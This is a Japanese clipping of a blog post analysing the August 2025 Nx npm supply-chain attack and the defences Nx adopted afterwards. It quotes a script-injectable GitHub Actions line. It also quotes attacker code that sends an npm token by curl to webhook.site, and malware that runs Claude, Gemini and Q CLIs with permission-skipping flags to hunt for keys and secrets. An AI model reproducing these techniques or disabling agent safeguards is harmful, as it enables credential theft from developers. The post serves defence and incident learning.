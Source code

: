 ```yaml
---
title: "Nx の攻撃から学べること #s1ngularity | blog.jxck.io"
source: "https://blog.jxck.io/entries/2025-09-03/nx-incidents.html"
author:
  - "Jxck"
published: 2025-09-03
created: 2025-09-05
description: "Nx リポジトリが攻撃を受け、広範囲にわたるインシデントが発生した。GitHub Actionsの脆弱性から始まり、トークン窃取、NPMパッケージ汚染、情報窃取まで多段階の攻撃が展開された。AIが途中で使用されたが、本質的には既知の手法の組み合わせによるサプライチェーンアタック。"
tags:
  - "security"
  - "github-actions"
  - "supply-chain-attack"
  - "nx"
  - "npm"
  - "clippings"
---
```


## 概要

2025年8月24-26日にかけて、Nxリポジトリが複雑なサプライチェーンアタックを受けた。この攻撃は古典的な手法の組み合わせだが、広範囲に影響し、AIが複数の段階で使用されたことが特徴的である。

## インシデントの詳細

### 1. Script Injection（GitHub Actions脆弱性）

**攻撃の起点:**

- Claude Code AIによって生成されたPRタイトル検証のワークフロー（PR #32458）
- PRタイトルを直接Shell実行する脆弱性を含む

```yaml
echo "Validating PR title: ${{ github.event.pull_request.title }}"
```

**問題点:**

- `github.event.pull_request.title`が直接Shell埋め込みされる
- 攻撃者がPRタイトルに任意のコマンドを実行可能
- `pull_request_target`により強力な権限で実行される

### 2. GITHUB_TOKENの窃取

**権限昇格:**

- `pull_request_target`でread/write権限の`GITHUB_TOKEN`が発行
- Script Injectionでトークンを外部サーバーに送信
- リポジトリへの強力な権限を取得

### 3. NPM_TOKENの奪取

**手順:**

1. 盗んだGITHUB_TOKENでpublish-resolve-data.jsを改ざん
2. NPM_TOKENを外部サーバーに送信するコードを追加
3. Publishワークフローを実行してトークンを窃取

```javascript
// 攻撃者が追加したコード
const npmToken = process.env.NODE_AUTH_TOKEN;
exec(`curl -d "${npmToken}" https://webhook.site/...`, ...);
```

### 4. 汚染パッケージの配布

**対象パッケージ:**

- nx
- @nx/devkit
- @nx/js
- @nx/workspace
- @nx/node
- @nx/eslint
- その他複数

**Infostealerの実装:**

- `postinstall`スクリプトでtelemetry.jsを実行
- AI CLIを利用して機密ファイルを検索・収集
- ユーザの情報を`s1ngularity-repository`に自動コミット

### 5. AI利用による情報窃取

**AI CLIの悪用:**
Claude、Gemini、Qの各CLIで機密ファイル検索を実行

```javascript
const cliChecks = {
  claude: {
    cmd: "claude",
    args: ["--dangerously-skip-permissions", "-p", PROMPT],
  },
  gemini: {
    cmd: "gemini", 
    args: ["--yolo", "-p", PROMPT]
  },
  q: {
    cmd: "q",
    args: ["chat", "--trust-all-tools", "--no-interactive", PROMPT],
  },
};
```

**収集対象:**

- SSH秘密鍵（id_rsa）
- 環境変数ファイル（.env）
- 暗号通貨ウォレット関連ファイル
- GitHubトークン
- その他機密情報

### 6. 被害の規模

**統計:**

- 904個のリポジトリで`s1ngularity-repository`が作成
- 6時間程度で大規模な被害拡大
- 二次攻撃による追加の被害発生

## 対策と教訓

### Nxが実装した対策

1. **Trusted Publishing（OIDC）**
   - NPM_TOKENを使わずOIDCでnpmにpublish
   - GitHub ActionsとnpmのOIDC連携

2. **CodeQL有効化**
   - GitHubの自動コードスキャニング
   - 今回の脆弱性を検出可能だった

3. **SECURITY.md追加**
   - 脆弱性報告の適切な受付体制
   - `security@nrwl.io`での報告受付

### 一般的な対策

**GitHub Actions:**

- 最小権限の原則適用
- `pull_request_target`の慎重な使用
- 環境変数の安全な扱い
- actionlint等のlinterの活用

**トークン管理:**

- ローカルファイルでの平文保存回避
- 1Password CLIなどの活用
- トークンの定期的なローテーション

**依存関係管理:**

- `minimumReleaseAge`設定によるアップデート遅延
- パッケージ更新の段階的適用

## 重要なポイント

1. **AIは攻撃の本質ではない** - 既知の手法の組み合わせ
2. **サプライチェーンアタックの深刻性** - 1つの侵害が広範囲に影響
3. **多層防御の重要性** - 単一の対策では不十分
4. **迅速な対応の必要性** - 6時間で大規模被害

## チェック項目

感染の可能性がある場合の確認事項：

- [ ] `/tmp/inventory.txt`ファイルの存在確認
- [ ] `s1ngularity-repository`リポジトリの有無確認
- [ ] .bashrc/.zshrcの改ざん確認
- [ ] SSH鍵の再生成と配布
- [ ] 暗号通貨ウォレットの確認
- [ ] 全アクセス可能リポジトリの権限確認

この事件は、現代の開発環境におけるセキュリティ意識の重要性と、包括的な対策の必要性を明確に示している。
